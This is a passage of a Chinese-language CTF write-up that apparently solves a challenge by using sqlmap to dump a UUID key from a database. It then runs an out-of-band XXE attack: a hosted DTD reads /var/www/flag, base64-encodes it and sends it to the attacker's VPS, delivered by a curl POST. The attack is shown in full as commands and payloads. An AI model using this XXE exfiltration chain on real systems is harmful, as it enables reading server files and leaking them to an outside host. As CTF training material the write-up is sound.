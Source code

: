 这里直接用sqlmap一把嗦

```
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] typodb


Database: typodb
[3 tables]
+------------+
| secretkeys |
| tokens     |
| users      |
+------------+



Database: typodb
Table: secretkeys
[1 entry]
+--------------------------------------+
| uuidkey                              |
+--------------------------------------+
| 8d6ed261-f84f-4eda-b2d2-16332bd8c390 |
+--------------------------------------+
```

拿到uuid，这样我们就可以构造xxe进行攻击了，但是有个问题，这里没有回显，所以我们得在自己vps搭建个，我的payload参考[此处](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-oob-with-dtd-and-php-filter)

vps放一个dtd.xml

```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/var/www/flag">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://ip:port/dtd.xml?%data;'>">
```

起一个python服务

```
python3 -m http.server 11111
```

curl发包

```
curl -X POST https://typhooncon-typo.chals.io/read.php -H "UUID: 8d6ed261-f84f-4eda-b2d2-16332bd8c390" -H "Cookie: PHPSESSID=ql32dudasjts4rjbsctj0vrvqd" -d "data=%3C%3Fxml%20version%3D%221%2E0%22%20encoding%3D%22UTF%2D8%22%3F%3E%0A%3C%21DOCTYPE%20r%20%5B%0A%3C%21ELEMENT%20r%20ANY%20%3E%0A%3C%21ENTITY%20%25%20sp%20SYSTEM%20%22http%3A%2F%2F[ip]%2Fdtd%2Exml%22%3E%0A%25sp%3B%0A%25param1%3B%0A%5D%3E%0A%3Cr%3E%26exfil%3B%3C%2Fr%3E%0A%3Cuser%3E%3Cusername%3Eadmin%3C%2Fusername%3E%3C%2Fuser%3E"
```

![image-20220626225143702](https://tuchuang.huamang.xyz/img/image-20220626225143702.png)

成功带出flag

![image-20220626225130183](https://tuchuang.huamang.xyz/img/image-20220626225130183.png)

![image-20220626225226359](https://tuchuang.huamang.xyz/img/image-20220626225226359.png)

